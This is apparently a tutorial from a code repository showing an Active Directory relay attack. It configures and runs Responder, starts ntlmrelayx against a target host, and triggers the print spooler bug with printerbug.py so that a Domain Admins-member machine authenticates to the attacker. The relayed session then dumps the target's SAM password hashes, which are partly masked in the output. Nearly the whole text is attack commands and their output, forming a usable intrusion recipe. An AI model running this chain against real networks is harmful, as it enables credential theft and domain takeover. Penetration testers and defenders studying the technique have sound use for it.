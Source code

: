 in this tutorial there is a spesific configuration exploited. During search of "Domain Admins" group i found one of the server machine is member of this group. So we will use spoolsample to force this machine to authenticate our server and relay request to another machine. Normally there should be authentication error but since machine is member of "Domain Admins" authentication succeed.

Machine in "Domain Admins" Group

![image](https://user-images.githubusercontent.com/13157446/133656582-f251b85d-13e3-48c5-baef-1964e1aaad23.png)


Responder HTTP and SMB server should be disabled


	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ cat /etc/responder/Responder.conf 
	[Responder Core]

	; Servers to start
	SQL = On
	SMB = Off
	RDP = On
	Kerberos = On
	FTP = On
	POP = On
	SMTP = On
	IMAP = On
	HTTP = Off
	HTTPS = On
	DNS = On
	LDAP = On
	.......

Start Responder

	┌──(kali㉿kali)-[~/krbrelayx]
	└─$ sudo responder -I eth0 -rv                                                                                                                                130 ⨯
											 __
	  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
	  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
	  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
					   |__|

			   NBT-NS, LLMNR & MDNS Responder 3.0.6.0

	  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
	  To kill this script hit CTRL-C


	[+] Poisoners:
		LLMNR                      [ON]
		NBT-NS                     [ON]
		DNS/MDNS                   [ON]

	[+] Servers:
		HTTP server                [OFF]
		HTTPS server               [ON]
		WPAD proxy                 [OFF]
		Auth proxy                 [OFF]
		SMB server                 [OFF]
		Kerberos server            [ON]
		SQL server                 [ON]
		FTP server                 [ON]
		IMAP server                [ON]
		POP3 server                [ON]
		SMTP server                [ON]
		DNS server                 [ON]
		LDAP server                [ON]
		RDP server                 [ON]
		DCE-RPC server             [ON]
		WinRM server               [ON]

	[+] HTTP Options:
		Always serving EXE         [OFF]
		Serving EXE                [OFF]
		Serving HTML               [OFF]
		Upstream Proxy             [OFF]

	[+] Poisoning Options:
		Analyze Mode               [OFF]
		Force WPAD auth            [OFF]
		Force Basic Auth           [OFF]
		Force LM downgrade         [OFF]
		Fingerprint hosts          [OFF]

	[+] Generic Options:
		Responder NIC              [eth0]
		Responder IP               [RelayServer]
		Challenge set              [random]
		Don't Respond To Names     ['ISATAP']

	[+] Current Session Variables:
		Responder Machine Name     [.....]
		Responder Domain Name      [...]
		Responder DCE-RPC Port     [....]

	[+] Listening for events...                   


Start Relay Server

	┌──(impacket)─(kali㉿kali)-[~/ntlmrelay-adcs/impacket]
	└─$ examples/ntlmrelayx.py -t TargetMachine.Domain_name.intra -smb2support              
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[*] Protocol Client DCSYNC loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server
	[*] Setting up HTTP Server
	[*] Setting up WCF Server

	[*] Servers started, waiting for connections
	
	
Exploit Spooler vulnerability and for to authenticate your relay server

	┌──(kali㉿kali)-[~/krbrelayx]
	└─$ python3 printerbug.py Domain_name.intra/User@VulnerableMachine.Domain_name.intra RelayServer 
	[*] Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	Password:
	[*] Attempting to trigger authentication via rprn RPC at VulnerableMachine.Domain_name.intra
	[*] Bind OK
	[*] Got handle
	RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
	[*] Triggered RPC backconnect, this may or may not have worked
	

Check NTLM Relay Server

	┌──(impacket)─(kali㉿kali)-[~/ntlmrelay-adcs/impacket]
	└─$ examples/ntlmrelayx.py -t TargetMachine.Domain_name.intra -smb2support              
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[*] Protocol Client DCSYNC loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server
	[*] Setting up HTTP Server
	[*] Setting up WCF Server

	[*] Servers started, waiting for connections
	[*] SMBD-Thread-4: Connection from Domain_name/VulnerableMachine$@VulnerableMachineip controlled, attacking target smb://TargetMachine.Domain_name.intra
	[*] Authenticating against smb://TargetMachine.Domain_name.intra as Domain_name/VulnerableMachine$ SUCCEED
	[*] SMBD-Thread-4: Connection from Domain_name/VulnerableMachine$@VulnerableMachineip controlled, but there are no more targets left!
	[*] Service RemoteRegistry is in stopped state
	[*] Starting service RemoteRegistry
	[*] Target system bootKey: 0x35f88c89**********68
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51*****435b51404ee:a68b*a7a**800f96bda2::*:*
	Guest:501:aad3b435b51404e********4ee:31d6cfe0d*16ae9**********e0c089c0:::
	DefaultAccount:503:aad3b435b51404ee********1404ee:31d6cfe********73c59d7e0c089c0:::
	SecretAdmin:1002:aad3b435b51404********04ee:adeb2001********f25bebc6540f:::
	[*] Done dumping SAM hashes for host: TargetMachine.Domain_name.intra
	[*] Stopping service RemoteRegistry
                                                                         
